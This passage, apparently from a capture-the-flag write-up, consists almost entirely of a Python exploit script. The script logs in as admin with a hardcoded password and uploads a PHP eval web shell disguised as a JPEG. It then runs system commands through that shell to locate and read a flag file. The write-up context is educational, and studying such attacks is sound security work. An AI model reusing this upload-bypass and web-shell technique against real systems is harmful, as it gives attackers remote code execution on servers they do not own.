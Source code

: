 ```python
# print('[+] creating user session')
sess = requests.Session()

username = 'admin'
password = 'jaivypassword'

print('[+] login({}, {})'.format(username, password))
login(username, password)

print('[+] user session => ' + sess.cookies.get_dict()['PHPSESSID'])

print('[+] uploading stager')
shell = {'pic': ('shell.php', '<?php @eval($_POST[cmd]);?>', 'image/jpeg')}
resp = sess.post(_action+'publish', files=shell)
print(resp.text)

webshell_url=_target+'upload/shell.php'
print('[+] shell => '+webshell_url+'\n')

post_data={"cmd":"system('find / -name \"*flag*\"');"}
resp = sess.post(url=webshell_url,data=post_data)
print(resp.text)

post_data={"cmd":"system('cat /etc/flag_is_He4e_89587236.txt');"}
resp = sess.post(url=webshell_url,data=post_data)
print(resp.text)
```

![](assets/markdown-img-paste-20190824164709805.png)
